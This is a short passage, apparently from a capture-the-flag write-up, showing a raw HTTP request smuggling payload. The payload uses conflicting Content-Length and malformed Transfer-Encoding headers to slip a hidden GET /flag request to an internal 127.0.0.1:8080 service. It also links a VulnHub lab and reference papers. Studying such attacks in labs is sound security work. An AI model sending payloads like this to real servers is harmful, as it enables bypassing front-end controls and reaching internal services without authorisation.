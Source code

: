 **If you send below request to the CTF server. which gives the response with the flag.**


```bash
GET /a HTTP/1.1
Host: 192.168.0.109
Content-Length: 4
Transfer-Encoding: chunkedasd

2c
GET /flag HTTP/1.1
Host: 127.0.0.1:8080


0

GET /a HTTP/1.1
Host: 127.0.0.1:8080
```

**- [LAB - HTTP request smuggling](https://www.vulnhub.com/entry/finithicdeo-1,636/)**

#### References:

- [medium](https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f)
- [cgisecurity](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf)
- [blackhat](https://i.blackhat.com/USA-19/Wednesday/us-19-Kettle-HTTP-Desync-Attacks-Smashing-Into-The-Cell-Next-Door.pdf)
- [YouTube](https://www.youtube.com/watch?v=_A04msdplXs&t=904s)
